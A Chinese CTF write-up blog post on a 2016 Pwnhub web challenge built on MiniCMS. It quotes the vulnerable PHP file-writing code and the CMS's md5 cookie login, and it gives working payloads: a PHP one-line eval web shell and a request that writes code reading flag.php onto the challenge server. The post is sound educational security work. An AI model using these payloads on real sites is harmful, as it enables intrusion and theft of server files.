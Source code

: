 ```yaml
---
title: Pwnhub外传第一关总结
categories:
  - CTF
tags:
  - CTF
  - WP
toc: true 文章目录
author: BlBana
date: 2016-12-15 00:52:55
description:
comments:
original:
permalink:
---
```


## Pwnhub 又一个要被黑掉的网站(总结)

> 今天晚上pwnhub又放了一道新题，和小伙伴一起来做，发现自己脑洞还是不够大欸，一根筋了，虽然没有做出来，但是已经离正确的答案不远了，哈哈~一道题让我学到了不少知识点，现在来总结一下。

<!-- more -->

### 0x01 开始
拿到题后，首先进入了一个比较简洁cms，具有一些简单的文章发布功能。
![Alt text](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/pwnhub/1.png)
大概在里面点了一会，浏览源码发现了一个可疑的地方。
![Alt text](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/pwnhub/2.png)
发现了一个链接，看见了file和path两个参数，首先想到的是文件包含漏洞，先试了一下，打算先看看别的地方（这里就走上了弯路）

### 0x02 弯路
在点击了订阅以后，发现了这么一个页面
![Alt text](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/pwnhub/3.png)
> 在这个页面中获得了一些，有关于这款CMS的一些信息，这个CMS叫MiniCMS，从对应的官网上下载了网站的源码，在本地部署了起来。

我以为这道题是一个代码审计的题目，发现这个网站是有后台的，于是去看了看登陆那一块的代码，发现非常简单。这个CMS是没有后台的，所有管理员的相关信息都存放在一个配置文件的数组当中，Cookies就是**"username"_"password"的md5值**。
```php
if (isset($_COOKIE['mc_token'])) {
  $token = $_COOKIE['mc_token'];

  if ($token == md5($mc_config['user_name'].'_'.$mc_config['user_pass'])) {
    Header("Location:{$mc_config['site_link']}/mc-admin/post.php");
  }
}

if (isset($_POST['login'])) {
  if ($_POST['user'] == $mc_config['user_name'] 
  && $_POST['pass'] == $mc_config['user_pass']) {
    setcookie('mc_token', md5($mc_config['user_name'].'_'.$mc_config['user_pass']));
    Header("Location:{$mc_config['site_link']}/mc-admin/post.php");
  }
}
```
![Alt text](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/pwnhub/4.png)
这时我的思路是，利用刚才发现的那个文件包含漏洞来读管理员的配置文件，然后登陆后台找flag...我嘞个去，都跑偏了不知道多少！！！

尝试包含了很多次，读取文件，命令执行都没有什么结果（**其实离开始的非预期漏洞已经不远了，只需要再访问一下path那个文件，就能得到想要的了**），发现没什么结果的时候，准备换一个思路试试。

### 0x03 新思路
这个时候回到了刚才看见那个`console.log('logo.jpg update sucess')`，想到了logo.jpg是不是由test.png复制而来的，但是没有去尝试一下，重新构造上传文件名来判断自己的想法是否正确。

这个时候思路又断掉了，之后脑洞大开，想到了是不是利用file远程文件读取来覆盖本地的某个文件来达到目的，但是发现file参数里如果开头不是http://127.0.0.1:8888/ 的话，就不会显示更新成功，但是只要file参数只要符合要求，不管path参数添什么，都可以正常的回显更新成功，并且path的内容会显示在**update success**之前。
![Alt text](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/pwnhub/5.png)
这时候将显示出来的内容搜索了一下，发现了一道类似的题目，又有了思路。
![Alt text](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/pwnhub/6.png)
[题目链接](http://webcache.googleusercontent.com/search?q=cache:iWybbYHM5vQJ:syclover.sinaapp.com/%20&cd=2&hl=zh-CN&ct=clnk&gl=cn)

想的是构造这么一句payload：
`image.php?path=blbana.php&file=http://127.0.0.1:8888/image.php?path=<?php @eval($_POST['he11']);?>&file=http://127.0.0.1:8888/image.php`
先打开image.php将内容写到`<?php @eval($_POST['he11']);?>`，本地测试会报错，但是一句话会显示出来，然后第二次将错误的页面源码写入的文件中，从而GetShell。
![Alt text](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/pwnhub/7.png)
但是尝试了很多次，caidao连接显示200，但是没办法连接上，又尝试直接访问我的文件，没有显示404，说明我创建了文件，但是实际内容没有写进去，最后看了大佬的writeup才知道，这个页面的报错已经关掉，无法通过将报错页面写入文件的方式来Getshell。
```php
<?php
ini_set("display_errors", "Off"); error_reporting(E_ALL);
$url = $_GET['file'];
$path = $_GET['path'];
if (strpos($path, '..')>‐1)
{
 die("error");
}
if (strpos($path, '<')>‐1)
{
 die("error");
}
if (strpos($url, 'http://127.0.0.1:8888/') == 0 )
{
 file_put_contents($path, file_get_contents($url));
 echo "console.log('".$path." update sucess!')";
}
?>
```
当时还尝试了文件包含，命令执行各种姿势，都不能得到flag，最后题目就关闭了 ...

### 0x04 正确思路
[官方WP](http://pwnhub.cn/media/writeup/71/eb87f081-824f-4a8e-a87a-bd4b1119c385_1651dacd.pdf)

正确的思路是在，页面`http://54.223.231.220/?date/2016-12%3Cimg/src=1%3E/`中构造XSS，改变前端的显示，再将该页面的源码写入到一个文件中，从而读到flag，payload如下：
`http://54.223.231.220/image.php?file=http://127.0.0.1:8888/?date/2016-12<?php print base64_encode(file_get_contents("flag.php"))?>&path=file`

### 0x05 知识点
1. file_get_contents()是可以进行文件包含漏洞的利用的；
2. file_get_contents()可以读取一个页面的源码，从而改变前端显示来getshell。







